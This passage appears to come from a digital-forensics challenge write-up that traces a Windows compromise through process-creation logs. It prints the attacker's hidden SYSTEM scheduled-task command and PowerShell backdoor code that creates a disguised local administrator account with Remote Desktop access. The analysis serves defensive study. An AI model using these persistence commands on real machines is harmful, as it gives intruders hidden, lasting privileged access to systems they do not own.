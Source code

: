 **Think of the Hosts File Like:**
- Your personal contacts list - You check your phone first before calling directory assistance
- A shortcut map - Takes you directly to places without asking for directions
- A VIP list - Gets priority access and bypasses normal procedures
- Your personal address book - Overrides the city's official directory

### Persistence Mechanism
Once again, filtering for Event ID `4688` (that is the ID for Process Creation), I found the scheduled task creation command:
```
C:\Windows\System32\schtasks.exe schtasks /create /tn "SysHelper Update" /tr "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Werni\Appdata\Local\JM.ps1" /sc minute /mo 2 /ru SYSTEM /f
```

**Breakdown:**
- **Task Name:** SysHelper Update (mimics legitimate Windows update service)
- **Action:** Execute hidden PowerShell script
- **Schedule:** Every 2 minutes
- **Privileges:** SYSTEM (highest privileges)
- **Stealth:** Hidden window, bypassed execution policy

The attacker used scheduled tasks for persistence, disguising malicious activity as legitimate system updates. Running every 2 minutes ensures rapid re-compromise if detected. You can see the discovery of this command from Timeline Explorer:
![persistence_mechanism](/images/TheEnduringEcho/Persistence.png)

### Persistence Script Location
From the scheduled task command above, the script path is clearly visible: `C:\Users\Werni\Appdata\Local\JM.ps1`

Examining the actual script file revealed sophisticated backdoor functionality. From the downloaded artifact that we were handed, we can visit the location above to open the file using an editor like notepad. 

Let's break down the script's activity:
- **List of potential usernames**
```powershell
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")
```

- **Check for existing user**
```powershell
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}
```

- **If none exist, create a new one**
```powershell
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser
```
